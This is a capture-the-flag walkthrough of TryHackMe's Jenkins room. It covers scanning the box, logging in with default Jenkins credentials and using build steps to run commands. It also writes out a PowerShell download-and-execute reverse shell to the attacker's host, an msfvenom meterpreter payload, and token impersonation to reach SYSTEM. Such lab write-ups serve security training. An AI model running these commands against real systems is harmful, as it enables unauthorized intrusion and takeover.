










# Jenkins

Here is a rough walkthrough on how I approached this cyber security challenge from TryHackMe.

## initial access

### nmap scan

```
PORT     STATE SERVICE    REASON          VERSION
80/tcp   open  http       syn-ack ttl 128 Microsoft IIS httpd 7.5
3389/tcp open  tcpwrapped syn-ack ttl 128
8080/tcp open  http       syn-ack ttl 128 Jetty 9.4.z-SNAPSHOT
MAC Address: 02:8A:9A:3C:C6:CF (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=8/7%OT=80%CT=%CU=%PV=Y%DS=1%DC=D%G=N%M=028A9A%TM=64D16066%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=10B%TI=I%TS=7)
OPS(O1=M2301NW8ST11%O2=M2301NW8ST11%O3=M2301NW8NNT11%O4=M2301NW8ST11%O5=M2301NW8ST11%O6=M2301ST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M2301NW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=N)

Uptime guess: 0.027 days (since Mon Aug  7 20:43:10 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2126.11 seconds
           Raw packets sent: 3355 (152.740KB) | Rcvd: 42120 (10.082MB)
```

### website

There isn't much here...


Gives us a Jenkins login.

The default password seems to be 'password' but this doesn't work. Try some basic logins and find **admin:admin** works.


### executing system commands from jenkins

http://10.10.21.16:8080/job/project/configure 

Select 'Save' and then select 'Build Now'.




And output can be viewed by clicking one of the builds in build history, then clicking 'Console Output'.


### jenkins console to spawn a shell

We will use [nishang](https://github.com/samratashok/nishang) to get access.

We will start by hosting a simple server in the location of our nishang shell.



Also start a `nc` listener.

```
──(root㉿kali)-[~]
└─# nc -nvlp 9001
```

Now execute the following system commands through jenkins.

`powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`. What this does is download our shell and then opens it, giving us a connection to the system.



Save and Build Now and check our listner.



`user.txt` can be found in `C:\Users\bruce\desktop`.

## switching shells

The goal here is to switch to a meterpreter shell to make privilege escalation easier.

We can use msfvenom to generate a new shell.

```
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.136.172 LPORT=4444 -f exe -o shell.exe
``` 

Then we use `exploit/multi/handler`.



Don't forget to hit `run`.


Put `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.136.172:8000/shell.exe','shell.exe')"` into the commands to execute.



And then use 'Build Now'.

Repeat with command `shell.exe` or whatever your shell is named.



## privilege escalation

```
C:\Program Files (x86)\Jenkins\workspace\project>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

We will be using incognito mode to steal tokens.

`meterpreter > use incognito `

```
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\sppsvc
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\CryptSvc
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\LanmanWorkstation
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\netprofm
NT SERVICE\NlaSvc
NT SERVICE\nsi
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
NT SERVICE\TermService
NT SERVICE\W32Time
NT SERVICE\WdiServiceHost
NT SERVICE\WinHttpAutoProxySvc
NT SERVICE\wscsvc
```

Note `BUILTIN\Administrators`.

```
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

### migrating

Windows uses primary tokens, not impersonated tokens to determine what a process can do.

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 684   580   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 772   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 848   668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 920   608   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 936   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 988   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1012  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1016  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1044  668   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 1064  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1204  1820  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
 1208  668   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1236  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1340  668   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1424  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1448  668   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1476  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1584  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1616  668   jenkins.exe           x64   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jenkins.exe
 1708  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1820  1616  java.exe              x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jre\bin\java.exe
 1844  668   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1928  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2248  668   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
 2356  772   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 2432  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2624  1820  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
 2672  668   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 2776  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2912  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2996  2624  shell.exe             x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\workspace\project\shell.exe
 3000  1204  powershell.exe        x86   0        alfred\bruce                  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
```

Migrate to `services.exe`.

```
meterpreter > migrate 668
[*] Migrating from 2996 to 668...
[*] Migration completed successfully.
meterpreter > 
```

Then we find the flag:

```
meterpreter > cat Windows\\System32\\config\\root.txt
```
